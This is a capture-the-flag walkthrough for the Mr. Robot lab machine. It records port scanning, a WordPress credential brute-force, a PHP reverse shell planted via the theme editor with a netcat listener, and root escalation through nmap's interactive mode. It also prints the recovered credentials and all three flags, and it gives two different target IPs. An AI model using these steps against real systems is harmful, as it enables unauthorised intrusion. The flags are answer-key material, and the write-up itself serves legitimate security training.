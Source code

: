 markdown
# Mr. Robot CTF Walkthrough - VulnHub/TryHackMe

## Introduction
The Mr. Robot CTF, inspired by the *Mr. Robot* TV show, is a beginner-to-intermediate Linux-based virtual machine available on [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/) and [TryHackMe](https://tryhackme.com/room/mrrobot). The goal is to find three hidden keys (flags) through web enumeration, brute-forcing, and privilege escalation. This write-up documents my approach to solving the challenge.

## Challenge Description
The VM hosts a web server on ports 80 (HTTP) and 443 (HTTPS) with a *Mr. Robot*-themed interface. The challenge provides files like `robots.txt` and `fsocity.dic` to aid in finding the three flags. Tasks involve enumerating a web server, brute-forcing a WordPress login, and escalating privileges to root.

## Solution/Steps

### Key 1: Web Enumeration
1. **Scan the Network**: Identified the target IP using Netdiscover:
   bash
   netdiscover
   
   Target IP: `10.0.2.7` (adjust based on your setup).
2. **Port Scanning**: Used Nmap to find open ports:
   bash
   nmap -T4 -A -p- 10.0.2.7
   
   Result: Ports 80 (HTTP) and 443 (HTTPS) open.
3. **Check robots.txt**: Visited `http://10.10.58.206/robots.txt` and found `key-1-of-3.txt` and `fsocity.dic`. Downloaded the first key:
   bash
   wget http://10.0.2.7/key-1-of-3.txt
   
   **Flag 1**: `073403c8a58a1f80d943455fb30724b9`

### Key 2: WordPress Login
1. **Directory Brute-Forcing**: Used GoBuster to find hidden directories:
   bash
   gobuster dir -u http://10.0.2.7 -w /usr/share/wordlists/dirb/common.txt
   
   Discovered `/wp-login.php`.
2. **Brute-Force WordPress**: Used wpscan with `fsocity.dic` to crack the login
   Credentials: `elliot:ER28-0652`.
3. **Gain Shell Access**: Logged into WordPress, edited `comments.php` to upload a PHP reverse shell. Set up a Netcat listener:
   bash
   nc -nlvp 1234
   
   Navigated to `/home/robot` and found the second key:
   bash
   cat key-2-of-3.txt
   
   **Flag 2**: `822c73956184f694993bede3eb39f959`

### Key 3: Privilege Escalation
1. **Check SUID Binaries**: Found exploitable Nmap binary:
   bash
   find / -perm -u=s 2>/dev/null
   
   Nmap version 2.02–5.21 supports interactive mode.
2. **Exploit Nmap**: Used Nmap to gain root shell:
   bash
   nmap --interactive
   nmap> !sh
   
3. **Retrieve Final Flag**: Navigated to `/root`:
   bash
   cd /root
   cat key-3-of-3.txt
   
   **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

## Tools and Techniques
- **Nmap**: Port scanning and privilege escalation.
- **GoBuster**: Directory brute-forcing.
- **wpscan**: WordPress credential brute-forcing.
- **wget**: File downloads.
- **Netcat**: Reverse shell handling.
- **PHP Reverse Shell**: Gained user access.

## Challenges Faced
I initially used a generic wordlist for wpscan, missing `fsocity.dic` in `robots.txt`. The Nmap interactive mode was new to me; researching GTFObins clarified the exploit. Thorough enumeration was key to avoiding dead ends.

## Flags
plaintext
- Key 1: 073403c8a58a1f80d943455fb30724b9
- Key 2: 822c73956184f694993bede3eb39f959
- Key 3: 04787ddef27c3dee1ee161b21670b4e4


## Conclusion
This CTF taught me the importance of enumeration and exploiting SUID binaries. The *Mr. Robot* theme made it engaging, and I improved my skills with Nmap and wpscan.
## References
- [VulnHub: Mr. Robot CTF](https://www.vulnhub.com/entry/mr-robot-1,151/)
- [TryHackMe: Mr. Robot CTF](https://tryhackme.com/room/mrrobot)
- [GTFObins: Nmap](https://gtfobins.github.io/gtfobins/nmap/)
- [SecLists Wordlists](https://github.com/danielmiessler/SecLists)
- PHP Reverse Shell: (https://github.com/pentestmonkey/php-reverse-shell)
  
